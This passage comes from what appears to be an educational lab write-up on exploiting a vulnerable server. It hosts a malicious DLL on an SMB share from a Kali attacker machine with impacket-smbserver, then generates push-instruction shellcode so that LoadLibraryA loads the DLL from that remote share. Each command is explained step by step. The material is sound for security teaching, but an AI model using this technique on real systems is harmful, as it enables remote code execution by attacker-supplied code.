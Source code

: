     * `dll`: Format for use as a DLL.

Now we know from the [UNC](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-dtyp/62e862f4-2a51-452e-8eeb-dc4ff5ee33cc) datatype that we have to provide a string in the form `= "\\" host-name "\" share-name  [ "\" object-name ]` when attempting to load and attach a DLL to our process. In our case this could be something like `\\10.0.2.15\A\mal.dll` where `10.0.2.15` is the IP of the Kali, `ABCD` is the name of our SMB share and `mal.dll` is the malicious DLL object we are sharing. So we can generate a SMB share using the following command. This should be ran in the directory that contains the malicious DLL `mal.dll`.
```
$ sudo impacket-smbserver -smb2support ABCD .
```
* `sudo`: This command and operation requires root privileges to bind to the well known SMB port 445.
* [`impacket-smbserver`](https://www.kali.org/tools/impacket-scripts/#impacket-smbserver):  This is the command the launches a SMB server and add a share as specified. 
* `smb2support`: Enable SMB2 Support.
* `A`: Name of the current Share. This is chosen to be short as we would complicate the shellcode generation otherwise.
* `.`: This is the current directory we are in, we can specify a path to share a specific directory. 

	https://github.com/DaintyJet/VChat_KSTET_DLL/assets/60448620/ee57745f-bddc-4f6f-8788-372524798848

#### Shellcode Generation
We will as has been stated many times previously be using the LoadLibraryA function which has the following function signature: 
```
HMODULE LoadLibraryA(
  [in] LPCSTR lpLibFileName
);
```
* `LPCSTR lpLibFileName`: This is a string specifying the DLL to be loaded, this can be a UNC path.
* This will return the handle to the module if it succeeds, otherwise it will be NULL.

The string we need to push on the stack is `\\10.0.2.15\A\mal.dll` as was discussed in the [Malicious DLLs](#malicious-dlls) section earlier. As we are working with a 32-bit system we need to split this string of 24 bytes (23 chars + 1 NULL) into 4 byte chunks for the optimal PUSH operations onto the stack. Thr [original blog](https://fluidattacks.com/blog/vulnserver-kstet-alternative/) provides the following shellscript.

```sh
$ for i in $(echo -ne '\\\\10.0.2.15\\A\\mal.dll' | xxd -ps | tr -d '\n' | fold -w 8); do python3 -c "import struct;print(struct.pack('<L', 0x$i).hex())"; done | tac | sed 's/^/push 0x/g'
```
To more easily explain this I will be breaking this up below 


First we will look at the conditional expression of the for loop.
```sh
$(echo -ne '\\\\10.0.2.15\\A\\mal.dll' | xxd -ps | tr -d '\n' | fold -w 8)
```
* [`echo -ne '\\\\10.0.2.15\\A\\mal.dll'`](https://www.man7.org/linux/man-pages/man1/echo.1.html): This will print "\\10.0.2.15\A\mal.dll" to the standard output.
	* `-n`: Do not print the newline character.
	* `-e`: Evaluate escape characters (Ex. \n \e \t...).
* [`| xxd -ps`](https://linux.die.net/man/1/xxd): Pipe the output of the *echo* command into the stdin of *xxd* which takes the input and converts the stdin values to their equivalent hexadecimal output.
	* `-p`: Output in plain hexdump style
	* `-s`: Sets starting seek position, since this is empty we are reading from stdin.
* [`| tr -d '\n'`](https://www.man7.org/linux/man-pages/man1/tr.1.html): Pipe the output of the *xxd* command into the *tr* command which can be used to translate or delete characters.
	* `-d '\n'`: Delete any newline characters.
* [`fold -w 8`](https://www.man7.org/linux/man-pages/man1/fold.1.html): Pipe the output of the *tr* command into the *fold* which will wrap each line of input (1) to fit in the width we specify
	* `-w 8`: Specify the width as 8 characters